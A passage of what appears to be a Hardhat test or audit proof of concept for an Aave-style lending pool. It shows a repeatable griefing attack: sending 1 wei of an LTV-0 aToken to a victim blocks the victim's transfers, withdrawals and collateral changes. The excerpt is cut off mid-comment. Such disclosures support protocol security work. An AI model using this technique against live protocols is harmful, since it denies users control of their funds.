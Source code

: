 ```solidity
    // user2 supply some AAVE (AToken with LTV > 0) to later be able to set as non-collateral
    const aaveSupplyAmount = utils.parseUnits('100', 18);
    expect(await aave.connect(user2.signer)['mint(uint256)'](aaveSupplyAmount));
    expect(await aave.connect(user2.signer).approve(pool.address, MAX_UINT_AMOUNT));
    expect(await pool.connect(user2.signer).supply(aave.address, aaveSupplyAmount, user2.address, 0));

    // user2 supplies 1000 WETH (AToken with LTV > 0)
    const wethSupplyAmount = utils.parseUnits('1000', 18);
    expect(await weth.connect(user2.signer)['mint(uint256)'](wethSupplyAmount));
    expect(await weth.connect(user2.signer).approve(pool.address, MAX_UINT_AMOUNT));
    expect(await pool.connect(user2.signer).supply(weth.address, wethSupplyAmount, user2.address, 0));

    // usdcSupplier supply some USDC to allow user2 to borrow them
    const usdcSupplyAmount = utils.parseUnits('1000', 6);
    expect(await usdc.connect(usdcSupplier.signer)['mint(uint256)'](usdcSupplyAmount));
    expect(await usdc.connect(usdcSupplier.signer).approve(pool.address, MAX_UINT_AMOUNT));
    expect(await pool.connect(usdcSupplier.signer).supply(usdc.address, usdcSupplyAmount, usdcSupplier.address, 0));

    // user2 borrow 100 USDC (AToken with LTV > 0)
    const usdcToBorrow = utils.parseUnits('100', 6);
    expect(await pool.connect(user2.signer).borrow(usdc.address, usdcToBorrow, RateMode.Variable, 0, user2.address));

    // user1 mint some DAI (AToken with LTV == 0)
    let daiSupplyAmount = utils.parseUnits('100', 18);
    expect(await dai.connect(user1.signer)['mint(uint256)'](daiSupplyAmount));
    expect(await dai.connect(user1.signer).approve(pool.address, MAX_UINT_AMOUNT));
    expect(await pool.connect(user1.signer).supply(dai.address, daiSupplyAmount, user1.address, 0));

    // user1 transfer 1 wei of those AToken to user 2
    await aDai.connect(user1.signer).transfer(user2.address, 1);

    // Test that the transfer/withdraw/set as non-collateral operations are not allowed when the victim owns a LTV-0 AToken
    await performNotAllowedOperations(pool, weth, aWETH, aave, user2, user3);

    // user2 decide to withdraw those LTV-0 Atoken -> balance 0, token set as non-collateral
    await pool.connect(user2.signer).withdraw(dai.address, MAX_UINT_AMOUNT, user2.address);
    expect(await dai.balanceOf(user2.address)).to.be.eq(1);

    // Now user2 could perform the actions but the Griefing attack can be repeated
    await aDai.connect(user1.signer).transfer(user2.address, 1);
    // Test that the transfer/withdraw/set as non-collateral operations are not allowed when the victim owns a LTV-0 AToken
    await performNotAllowedOperations(pool, weth, aWETH, aave, user2, user3);

    // user2 decide to transfer to another address those LTV-0 Atoken -> balance 0, token set as non-collateral
    await aDai.connect(user2.signer).transfer(randomEOA.address, 1);
    expect(await aDai.balanceOf(user2.address)).to.be.eq(0);
    expect(await aDai.balanceOf(randomEOA.address)).to.be.eq(1);

    // Now user2 could perform the actions but the Griefing attack can be repeated
    await aDai.connect(user1.signer).transfer(user2.address, 1);
    // Test that the transfer/withdraw/set as non-collateral operations are not allowed when the victim owns a LTV-0 AToken
    await performNotAllowedOperations(pool, weth, aWETH, aave, user2, user3);

    // transfer the LTV-0 token just to "reset" the balance of the poisoned token and showcase
```